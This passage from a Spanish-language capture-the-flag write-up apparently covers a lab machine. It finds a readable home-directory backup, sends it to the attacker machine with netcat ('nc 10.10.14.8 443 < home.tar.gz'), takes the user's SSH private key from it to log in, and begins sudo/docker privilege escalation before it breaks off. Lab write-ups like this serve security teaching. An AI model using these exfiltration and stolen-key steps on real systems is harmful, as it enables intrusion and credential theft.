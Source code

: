 Tampoco vemos algo aqui.

```bash
cd /var
find \-type f 2>/dev/null | grep -v -E "lib|cache"
```

Aqui vemos algo que podria ser interesante.

```bash
cd /var/backups
ls -l
```

Vemos un 
```bash
 home.tar.gz 
```
 y tenemos derecho de visualizar

#### Nos enviamos el home.tar.gz {-}

1. En la maquina de atacante

    ```bash
    nc -nlvp 443 > home.tar.gz
    ```

1. En la maquina victima

    ```bash
    nc 10.10.14.8 443 < home.tar.gz
    ```

1. Hacemos un md5sum para ver la integridad de la data
1. Analizamos el fichero

    ```bash
    7z l home.tar.gz
    ```

Ya podemos ver que es un comprimido del directorio home del usuario Noah con authorized_key y una id_rsa del proprio usuario

### Conexion por ssh {-}

```bash
chmod 600 id_rsa
ssh -i id_rsa noah@10.10.10.230
```

Ya estamos a dentro y podemos ver la flag

## Escalada de Privilegios {-}

### Rootear la maquina {-}

```bash
id
sudo -l
#Output

(ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

